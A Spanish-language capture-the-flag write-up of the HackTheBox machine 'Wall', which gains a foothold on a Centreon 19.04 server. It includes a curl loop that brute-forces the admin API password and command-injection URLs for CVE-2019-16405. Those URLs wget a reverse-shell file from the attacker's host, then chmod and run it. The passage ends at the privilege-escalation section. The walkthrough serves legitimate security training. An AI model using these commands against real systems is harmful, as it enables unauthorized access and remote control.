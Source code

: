 # Wall

![1_XItXYcP8tLhBnR8FvyPing](https://user-images.githubusercontent.com/87484792/184016462-429034df-66b4-4f34-8386-107417732885.png)

## Datos de Interés

Siento que esta máquina no tiene un gran nivel de dificultad. Será cuestión de investigar un poco sobre el servicio de monitorización que hostea el puerto 80 en el servidor Web. En este caso se trata de **Centreón**. La escalada de privilegios se hará a traves de un SUID que ya hemos podido explotar en otras maquinas, será el screen con versión 4.5.0. Explicaremos de forma manual algunos scripts para entender la intrusión.

## Enumeración

Empezaremos con la fase de enumeración, usaremos nmap para descubrir puertos abiertos. 

`sudo nmap --min-rate 5000 -vvv -p- -sS -Pn -n -oN openPorts.txt 10.10.10.157`

Esta maquina solamente tiene dos puertos abiertos.

![image](https://user-images.githubusercontent.com/87484792/184020390-8073e636-5782-434b-8c9e-d632cec64022.png)

Por un lado tendremos puerto 22 (SSH) y por otro lado el puerto 80 (HTTP).

##  Reconocimiento 

Con SSH no podemos hacer gran cosa ahora mismo, no tenemos credenciales válidas. Iremos a revisar el otro puerto. Encontramos una pagina web con un "Default Page" de Apache. 

![image](https://user-images.githubusercontent.com/87484792/184023616-68fb0323-61b8-4928-863c-4e1f63d08612.png)

Es buena idea empezar a hacer fuzzing, tiraré de dirsearch, en caso de no encontrar nada usaré otro diccionario o haré uso de wFUZZ. Aunque ya puedo adelantar que con dirsearch me fue suficiente.

![image](https://user-images.githubusercontent.com/87484792/184025529-e16886f4-9fc6-4d8c-9cae-5fb7eb29bdd9.png)

Hay cosas interesantes en el reporte del fuzz. 
- */panel.php* parece ser una pequeña troleada del author de la caja.
- */Monitoring*, no podemos acceder. Necesitamos credenciales.
- */centreon* es un software de monitoreo. No tenemos credenciales pero si que tenemos algo muy importante, **la versión**.

![image](https://user-images.githubusercontent.com/87484792/184026472-c0a47dbd-145d-4564-800e-1f39c039f513.png)

La misma web nos da la información que estamos contra un login de versión 19.04

Esto es muy bueno ya que haciendo una busqueda simple en Google, vemos varios CVE y podemos ver que es vulnerable a **RCE**.
Para poder ejecutar estos CVE necesitamos acceso a una cuenta administrador, pero puesto que no tengo ninguno, intentaré bruteforcearlo.

Encontré un script que me ahorraba tiempo para el bruteforce, pero al echarle un ojo quise aprender como funcionaba. Hay un token que nos limita el bruteforce, así que decidi mirar un poco más a fondo. Encontré que este sistema tiene una api que de primera me decia **Unauthorized**. Con una busqueda en google de la API, en la sección de Authenticación pude ver la data que espera la API. Por esta via será mucho más rápido y eficiente que intentar manipular la petición con el token.

Monté un oneliner como este:

`while read line; do request=$(curl -s -X POST "http://10.10.10.157/centreon/api/index.php?action=authenticate" -d "username=admin&password=$line" | tr -d "\""); if [ $request != "Bad credentials" ];then echo -e "\n"'[*] Password found: '$line; break; fi ; done < /usr/share/wordlists/rockyou.txt`

Funciono. Conseguí la password: `password1`

Y efectivamente era la correcta. 
Tal como se puede mostrar en la imagen, nos ha dejado loguearnos.

![image](https://user-images.githubusercontent.com/87484792/184038497-785183bd-a2e8-4d03-b853-7d061616b1fb.png)

Mirando los POC de los CVE, intenté hacerlo de forma manual. De forma grafica tendremos que acceder a **"Config > Commands > Discovery"**
Sin embargo parece que no funciona, algo esta bloqueando el poder ejecutar comandos. Dudo que siendo admin no tengamos los privilegios suficientes para ejecutar comandos.

![image](https://user-images.githubusercontent.com/87484792/184151052-528764c9-7215-4afa-82df-e14288fbda6f.png)

Me pregunté si habia algún WAF activo. Probé tambien con Scripts que habia de la comunidad en GitHub y Scripts de db-exploit. Ninguno me daba una shell.
Como habia más de un CVE que afectaba a esta versión, decidi mirar los otros caminos posibles. 

## CVE-2019-16405

Podemos realizar Ejecución Remota de Comandos a traves de una modificación de plugin, siempre y cuando tengamos permisos de administrador.
Es el caso, así que probaré.

![image](https://user-images.githubusercontent.com/87484792/184155790-5802941d-d764-4ce8-9d33-05e921090fc9.png)

`URL: http://10.10.10.157/centreon/main.get.php?p=60801&command_hostaddress=&command_example=&command_line=id&o=p&min=1`

Y si, efectivamente podemos ejecutar comandos. Trataré de cargar una shell para ejecutarla con bash. Hay varios Scripts que son totalmente funcionales, y que dejaré en este write up, pero esta vez lo haremos de forma manual. 

De primeras, crearé un archivo llamado 'shell' con una reverse dentro, compartiré ese archivo a traves de un servidor Python y por último ejecutaré en el centreon el comando de *wget* para descargarlo en la maquina victima.  

![image](https://user-images.githubusercontent.com/87484792/184157502-36293fb2-ee1a-4d9f-9c34-5a1b7279e2c5.png)

Guardamos la shell en el directorio /tmp:

`http://10.10.10.157/centreon/main.get.php?p=60801&command_hostaddress=&command_example=&command_line=wget%20http%3A%2F%2F10.10.16.7%2Fshell%20-O%20%2Ftmp%2Fshell&o=p&min=1`

Despues de este paso, queda activarlo para obtener la shell. Ejecutaremos bash.
Para eso antes, me pondré en escucha por el puerto 8081. Y finalmente, ejecutamos.

otorgamos privilegios de ejecución:

`http://10.10.10.157/centreon/main.get.php?p=60801&command_hostaddress=&command_example=&command_line=chmod%20777%20/tmp/shell&o=p&min=1`

ejecutamos:

`http://10.10.10.157/centreon/main.get.php?p=60801&command_hostaddress=&command_example=&command_line=bash%20%2Ftmp%2Fshell&o=p&min=1`

![image](https://user-images.githubusercontent.com/87484792/184162441-79d1070e-8e07-4132-9e59-646d46373b0a.png)


## Privilegios de Escalados - User & Root

Nos encontramos como el usuario `www-data`, no nos encontramos en ningún grupo interesante, pero mirando los **SUID** hay algo que me llama directamente mi atención.


